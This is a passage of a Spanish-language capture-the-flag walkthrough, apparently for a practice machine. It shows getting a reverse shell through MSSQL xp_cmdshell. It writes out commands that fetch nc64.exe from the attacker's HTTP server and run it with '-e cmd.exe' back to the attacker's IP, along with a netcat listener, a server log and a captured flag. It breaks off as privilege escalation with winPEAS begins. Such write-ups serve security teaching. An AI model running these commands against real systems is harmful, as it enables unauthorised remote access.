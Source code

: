 
## Estableciendo una reverse shell

Ahora ya podemos tratar de establecer una reverse shell. Para ello utilizaremos el binario `nc64.exe`, pero antes debemos ver en qué ruta subirlo:

```powershell
xp_cmdshell "powershell -c pwd"
```

Nos diche estamos en `C:\Windows\system32`, por lo que debemos cambiar dicha ruta antes de subir el [binario](https://github.com/int0x33/nc.exe/blob/master/nc64.exe), haciendo uso de wget y de un servidor http con python:

```shell
#En nuestra máquina
sudo python3 -m http.server 80
```
```powershell
#En la máquina victima
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://<nuestra ip>/nc64.exe -outfile nc64.exe"
```

Comprobamos que el servidor python recibe la petición:

```shell
10.129.238.95 - - [07/Feb/2023 22:41:50] "GET /nc64.exe HTTP/1.1" 200 -
```

Ya sólo falta ponernos en escucha con netcat y ejecutar el binario devolviéndonos una `cmd.exe`:

```shell
#Nuestra máquina
sudo nc -lvnp 443
```
```powershell
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe  
<nuestra ip> 443"
```

El parámetro `-e` indica que tras conectarnos queremos ejecutar dicho archivo, en este caso una cmd. Una vez lo ejecutemos deberíamos tener una shell en la pestaña donde corría netcat. La flag del usuario debería estar en `C:\Users\sql_svc\Desktop`:

```powershell
C:\Users\sql_svc\Desktop>type user.txt
type user.txt
3e7b102e78218e935bf3f4951fec21a3
```


## Escalada de privilegios

Para escalar privilegios utilizaremos una herramienta llamada [[winPEAS]], que automatizará gran parte del proceso de enumeración de procesos.

Primero debemos transferir el binario a la máquina víctima. Para ello montamos un servidor http con python por el puerto 80, y al igual que antes, utilizamos wget en la máquina víctima:
